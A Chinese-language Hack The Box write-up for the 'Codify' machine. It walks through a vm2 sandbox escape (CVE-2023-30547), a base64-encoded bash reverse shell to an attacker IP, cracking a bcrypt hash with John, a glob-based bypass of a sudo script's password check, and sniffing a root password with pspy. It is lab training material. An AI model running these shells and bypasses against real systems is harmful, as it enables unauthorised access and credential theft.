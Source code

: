 
## Summary

*`OS: Linux` `Difficulty: Easy`*

以简单的知识点也能构建出这么巧妙的一台，非常有趣。

### Relevant Skills

- nmap
- SQLite
- shell script
- JTR


### Attack Path Overview

![attack-path](./AttackPath/HTB-Codify.png){ width='450' }


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>`

开放端口：
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
```

## 攻击路径规划·漏洞分析

常规靶机，22端口SSH的版本较新，优先度放低。先看80端口的Web。


## 80端口

- robots.txt：无
- 网页信息：点击 `About Us` 可得知其使用[vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16)。版本为3.9.16。
- 网页功能：一个测试Node.js代码的网页，有个Editor界面可编写代码运行测试。
- 子域枚举：无特别发现


## Initial Access

### PoC ([CVE-2023-30547](https://security.snyk.io/vuln/SNYK-JS-VM2-5426093))

根据vm2的版本号3.9.16，简单谷歌之后在github发现一个漏洞提交与PoC：<https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244>  
复制其PoC代码粘贴到Editor运行后无反应，本身也不太懂Node.js，让ChatGPT解释了一下明白代码执行在 `execSync()` 处。遂将命令改为 `id` 后再次运行，成功显示结果：

![HTB-Codify-PoC](./evidence-img/HTB-Codify-PoC.png)

接下来就简单了，使用反弹shell的命令：`echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDQgMD4mMQ==" |base64 -d|bash`

成功反连：

```bash
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ pwd
/home/svc
svc@codify:~$ ls
pwned  script.sh
```

## 横向移动

可以发现该用户没有user flag。看家目录有另一个用户：joshua，估计要横向移动。

一番探索后发现一个DB文件：
```bash
svc@codify:/var/www/contact$ file tickets.db 
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
svc@codify:/var/www/contact$ which sqlite3
/usr/bin/sqlite3

sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

### 破解密码

```bash
└─$ echo 'joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash.txt

└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt 
 ... 
spongebob1       (joshua)     
 ...
```

`su` 或者 `ssh` 成功登陆joshua用户：

```bash
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

## flag: user

```bash
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt 
808c ... f408
```


## Privilege Escalation

### Internal Recon

有当前用户的凭据所以先看了眼 `sudo -l`：

```bash
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

查看这个脚本：

```bash
joshua@codify:~$ ls -aihl /opt/scripts/mysql-backup.sh
401117 -rwxr-xr-x 1 root root 928 Nov  2 12:26 /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

是进行数据库的备份，执行时要求输入密码匹配 `$DB_PASS`，但是值得注意的是，if条件判断 `$DB_PASS == $USER_PASS` 并未用双引号包围变量。所以可以利用shell的通配符绕过认证——即可以在要求输入密码时输入“*”。

执行：

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

注意到系统提示的 `[Warning] Using a password on the command line interface can be insecure.`

那么就用pspy看看，再次运行脚本后发现这一段：

```bash
 ...
023/11/11 04:51:08 CMD: UID=0     PID=34733  | /usr/bin/echo Backing up database: sys 
2023/11/11 04:51:08 CMD: UID=0     PID=34735  | /bin/bash /opt/scripts/mysql-backup.sh 
2023/11/11 04:51:08 CMD: UID=0     PID=34734  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys
 ...
```


## flag: root

```bash
joshua@codify:~$ su -
Password: 
root@codify:~# ls
root.txt  scripts
root@codify:~# cat root.txt 
bb7c ... dbb4
```


---

## 总结·后记

2023/11/11

似乎第一次遇到所有知识点都撞到我会的范围里的……第一次觉得这才是Easy机器啊！